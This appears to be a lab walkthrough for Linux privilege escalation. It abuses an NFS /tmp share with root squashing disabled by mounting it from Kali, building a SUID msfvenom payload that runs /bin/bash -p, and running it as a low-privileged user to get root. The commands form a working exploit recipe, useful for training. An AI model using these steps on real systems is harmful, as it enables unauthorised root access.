 Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

**Check the NFS share configuration on the Debian VM:**
```python
cat /etc/exports
```
Note that the **/tmp** share has root squashing disabled.

**On your Kali box, switch to your root user if you are not already running as root:**
```python
sudo su
```

**Using Kali's root user, create a mount point on your Kali box and mount the "/tmp" share (update the IP accordingly):**
```python
mkdir /tmp/nfs   
mount -o rw,vers=3 VICTIM_IP:/tmp /tmp/nfs
```

**Still using Kali's root user, generate a payload using "msfvenom" and save it to the mounted share (this payload simply calls /bin/bash):**
```python
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

**Still using Kali's root user, make the file executable and set the SUID permission:**
```python
chmod +xs /tmp/nfs/shell.elf
```

**Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:**
```python
/tmp/shell.elf
```


